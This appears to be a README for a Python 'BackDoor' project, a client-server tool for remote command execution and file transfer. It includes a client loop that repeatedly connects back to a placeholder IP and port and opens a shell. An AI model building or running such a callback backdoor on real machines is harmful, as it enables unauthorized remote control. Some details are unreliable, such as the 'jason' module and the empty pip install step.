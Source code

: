 ## BackDoor

### Objective
To create a client-server application for communication, command execution, and file transfer over a network.

### Skills Learned
* Socket programming for network communication
* JSON data encoding and decoding
* Process management using subprocess
* File handling and I/O operations
* Concurrent programming (for handling multiple clients, potentially)

### Tools Used
  Python Standard Library:
* socket
* time
* subprocess
* jason
* os

You can install them using pip:

```bash
pip install 
```
### Steps

#### 1) Server Setup:
  * Import necessary modules: socket, json, os.
  * Define functions for reliable sending, receiving, file transfer, and client handling.
  * Create a socket, bind it to an address, and listen for incoming connections.
  * Accept incoming connections and handle client communication in a separate thread or process (optional).
  * Change the ip and port on the code:
    ```python
    sock.bind(('xxx.xxx.xxx.xxx', pppp))
    ```

#### 2) Client Setup:
  * Import necessary modules: socket, time, subprocess, json, os.
  * Define functions for reliable sending, receiving, file transfer, and command execution.
  * Establish a connection to the server.
  * Implement a command-line interface or graphical user interface for user interaction.
  * Handle incoming data from the server and display it to the user.
  * Change the ip and port on the code
    ```python
    def connection():
	while True:
		time.sleep(20)
		try:
			s.connect(('xxx.xxx.xxx.xxx',pppp))
			shell()
			s.close()
			break
		except:
			connection()
    ```

#### 3) Communication Protocol:
  * Define the communication protocol between the client and server, including command formats, data structures, and error handling      mechanisms.
  * Implement the protocol in both the client and server code.
   
